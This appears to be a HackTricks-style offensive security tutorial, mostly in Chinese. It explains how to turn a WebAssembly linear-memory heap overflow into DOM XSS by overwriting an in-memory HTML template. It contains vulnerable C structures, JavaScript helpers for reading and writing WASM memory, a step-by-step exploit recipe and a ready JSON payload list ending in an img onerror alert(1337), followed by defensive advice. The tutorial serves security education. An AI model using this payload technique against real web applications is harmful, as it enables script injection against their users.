# WebAssembly linear memory corruption to DOM XSS (template overwrite)

{{#include ../../banners/hacktricks-training.md}}

本技术展示了如何将编译自 Emscripten 的 WebAssembly (WASM) 模块内的 memory-corruption bug 武器化为可靠的 DOM XSS，即使输入已被清理。关键在于不是去攻击已被清理的源字符串，而是破坏 WASM linear memory 中可写的常量（例如 HTML format templates）。

关键思想：在 WebAssembly 模型中，代码位于不可写的可执行页面，但模块的数据（heap/stack/globals/"constants"）位于单一平面 linear memory（64KB 的页面），由模块可写。如果有 buggy C/C++ 代码越界写入，就能覆盖相邻对象，甚至覆盖嵌入在 linear memory 中的常量字符串。当这样的常量随后被用来构建并通过 DOM sink 插入 HTML 时，你可以将已被 sanitizer 编码的输入变成可执行的 JavaScript。

威胁模型和前提条件
- Web app 使用 Emscripten glue (Module.cwrap) 来调用 WASM 模块。
- 应用状态保存在 WASM linear memory 中（例如 C structs，包含指向用户缓冲区的指针/长度）。
- 输入 sanitizer 在存储前对元字符进行编码，但后续渲染使用存储在 WASM linear memory 中的格式字符串来构建 HTML。
- 存在一个 linear-memory 损坏原语（例如 heap overflow、UAF，或 unchecked memcpy）。

最小易受攻击的数据模型（示例）
```c
typedef struct msg {
char *msg_data;       // pointer to message bytes
size_t msg_data_len;  // length after sanitization
int msg_time;         // timestamp
int msg_status;       // flags
} msg;

typedef struct stuff {
msg *mess;            // dynamic array of msg
size_t size;          // used
size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```
易受攻击的逻辑模式
- addMsg(): 为已清理的输入分配一个新的 buffer 并将 msg 追加到 s.mess，在需要时使用 realloc 将容量翻倍。
- editMsg(): 重新清理并用 memcpy 将新字节复制到现有 buffer 中，但没有确保新长度 ≤ 旧分配 → intra‑linear‑memory heap overflow。
- populateMsgHTML(): 使用驻留在 linear memory 中的固定模板如 "<article><p>%.*s</p></article>" 格式化已清理的文本。返回的 HTML 会落入一个 DOM sink（例如 innerHTML）。

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
if (s->size >= s->capacity) {
s->capacity *= 2;
s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
if (s->mess == NULL) exit(1);
}
s->mess[s->size++] = new_msg;
return s->size - 1;
}
```
- 发送足够多的消息以超出初始容量。增长后，realloc() 通常会将 s->mess 放置在线性内存中最后一个用户缓冲区的后面。
- 通过 editMsg() 溢出最后一条消息以破坏 s->mess 内的字段（例如，覆盖 msg_data 指针）→ 在线性内存中任意 pointer 重写，从而影响随后被渲染的数据。

Exploit pivot: overwrite the HTML template (sink) instead of the sanitized source
- Sanitization protects input, not sinks. Find the format stub used by populateMsgHTML(), e.g.:
- "<article><p>%.*s</p></article>" → change to "<img src=1      onerror=%.*s>"
- 通过扫描线性内存可确定性地定位该 stub；它是在 Module.HEAPU8 中的一个纯字节字符串。
- 在你覆盖该 stub 之后，经过 sanitize 的消息内容就会成为 onerror 的 JavaScript 处理器，因此添加一条文本为 alert(1337) 的新消息会生成 <img src=1 onerror=alert(1337)> 并立即在 DOM 中执行。

Chrome DevTools workflow (Emscripten glue)
- 在 JS glue 中的第一个 Module.cwrap 调用处设置断点并单步进入 wasm 调用位置以捕获 pointer 参数（线性内存中的数值偏移）。
- 在控制台中使用像 Module.HEAPU8 这样的 typed views 来读/写 WASM memory。
- Helper snippets:
```javascript
function writeBytes(ptr, byteArray){
if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
for(let i=0;i<byteArray.length;i++){
const byte = byteArray[i];
if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
HEAPU8[ptr+i]=byte;
}
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
const bytes=HEAPU8.subarray(ptr,ptr+len);
return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
for(let i=0;i<mem.length-pat.length;i++){
let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
if(ok) console.log(`Found "${str}" at memory address:`, i);
}
console.log(`"${str}" not found in memory`);
return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```
End-to-end exploitation recipe
1) Groom: 添加 N 个小消息以触发 realloc()。确保 s->mess 与 user buffer 相邻。
2) Overflow: 对最后一条消息调用 editMsg()，用更长的 payload 覆盖 s->mess 中的一个条目，将 message 0 的 msg_data 设置为指向 (stub_addr + 1)。+1 用来跳过开头的 '<'，以便在下次编辑时保持标签对齐。
3) Template rewrite: 编辑 message 0，使其字节覆盖模板为: "img src=1      onerror=%.*s ".
4) Trigger XSS: 添加一条新消息，其被清理后的内容为 JavaScript，例如 alert(1337)。渲染时会输出 <img src=1 onerror=alert(1337)> 并执行。

Example action list to serialize and place in ?s= (Base64-encode with btoa before use)
```json
[
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
{"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
{"action":"add","content":"alert(1337)","time":1756840476392}
]
```
为什么此绕过有效
- WASM 防止从线性内存执行代码，但如果程序逻辑有漏洞，线性内存中的常量数据可能是可写的。
- sanitizer 仅保护源字符串；通过破坏 sink（HTML 模板），被净化的输入会成为 JS 处理器的值，并在插入 DOM 时执行。
- realloc()-driven 相邻布局加上编辑流程中未检查的 memcpy 允许指针被破坏，从而将写入重定向到线性内存中攻击者选择的地址。

泛化及其他攻击面
- 任何嵌入在线性内存中的内存内 HTML 模板、JSON 骨架或 URL 模式都可能成为目标，用以改变下游对被净化数据的解释方式。
- 其他常见的 WASM 陷阱：线性内存的越界写/读、堆对象的 UAF、带未检查间接调用索引的 function-table 滥用，以及 JS↔WASM 粘合层不匹配。

防御建议
- 在编辑路径中，验证 new length ≤ capacity；在复制前调整缓冲区大小（realloc 到 new_len），或使用有大小限制的 API（snprintf/strlcpy），并跟踪容量。
- 将不可变模板放在可写的线性内存之外，或在使用前对其进行完整性校验。
- 将 JS↔WASM 边界视为不受信任：验证指针范围/长度，对导出接口进行模糊测试，并限制内存增长。
- 在 sink 端进行消毒：避免在 WASM 中构建 HTML；优先使用安全的 DOM API，而不是 innerHTML-style templating。
- 不要在特权流程中信任嵌入在 URL 中的状态。

## 参考资料
- [攻破 WebAssembly：在 WASM 沙箱中绕过 XSS 过滤器](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [在 Chrome DevTools 中调试 WebAssembly (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Chrome 漏洞利用入门 (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)

{{#include ../../banners/hacktricks-training.md}}
